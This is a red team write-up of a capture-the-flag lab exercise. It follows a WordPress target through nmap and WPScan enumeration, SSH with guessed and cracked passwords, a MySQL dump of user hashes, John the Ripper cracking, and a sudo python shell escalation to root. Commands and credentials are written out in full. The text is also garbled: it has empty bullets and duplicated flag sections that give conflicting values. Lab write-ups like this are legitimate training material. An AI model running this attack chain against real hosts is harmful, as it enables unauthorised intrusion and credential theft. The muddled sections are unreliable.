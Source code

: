 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110
```
![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/1-nmap.png)

This scan identifies the services below as potential points of entry:

**Target 1**
```
- Port 22/TCP   Open SSH
- Port 80/TCP   Open HTTP
- Port 111/TCP 	Open rcpbind
- Port 139/TCP 	Open netbios-ssn
- Port 445/TCP 	Open netbios-ssn
```

The following vulnerabilities were identified on each target:
**Target 1**
```
- Weak User Password
- WordPress - user enumeration and unsalted user password hash
- Escalation of privilege
```

---

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33e11b80be759c4e844862482d**
- Exploit Used:
    - WPScan to identify users of the Target 1 machine
    - Command: `$ wpscan --url http://192.168.1.110/wordpress`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wp1.png)

    - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wpu.png)

- Accessing user Michael
    - due to a weak password we were able to guess Michael's password
    - `ssh michael@192.168.1.110`
    - Password: `michael`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/SSH.png)

- Accessing var/www/html as root and using `grep` to capture flag1.
    - Commands:
        - `cd ../`
        - `cd var/www`
        - `cd html/`
        - `ls`
        - `grep -IR flag1 *`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag1.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a36e5**
- Exploit Used:
    - Same exploit used to capture flag1.
        - Commands:
            - `cd ../`
            - `ls`
            - `cat flag2.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag2.png)

- **Flag3: fc3fd58dcdad9ab23faca6e9a36e5**
- Exploit Used:
    - Same exploit used to capture flag1 and flag2.
    - Once `wp-config.php` was found, we gained access to the database (as Michael) MySQL was used to locate flag3.
        - Commands:
            - `mysql -u root -pR@v3nSecurity`
            - `connect wordpress`
            - `show tables`
            - `seletct * from wp_posts;`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/sp_post.png)

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Recieve 'hash' password for both Michael and Steven byb using the same MySQL exploit from flag3.
        - Commands:
            - `mysql -u root -pR@v3nSecurity`
            - `connect wordpress`
            - `show tables`
            - `seletct * from wp_users;`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/tables.png)

   - Created a .txt file of 'hash' passwords
    - `nano wp_hash.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wphash.png)    

   - Used John the Ripper to unhash Steven's password
    - `john wp_hash.txt`
    - `john --show wp_hash.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/password.png)

- Accessing user Steven
    - `ssh steven@192.168.1.110`
    - Password: `pink84`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/sshsteven.png)

- Use Python to gain root privileges
    - `
    - `
    - `
    - `
    - `









![Flag 2 location](/Images/flag2-location.png "Flag 2 location")

![Flag 2 cat](/Images/flag2-cat.png "Flag 2 cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![Flag 3 location](/Images/flag3-location.png "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/wpusers-table.png "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/john-results.png "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![Flag 4 location](/Images/flag4-location.png "Flag 4 location")

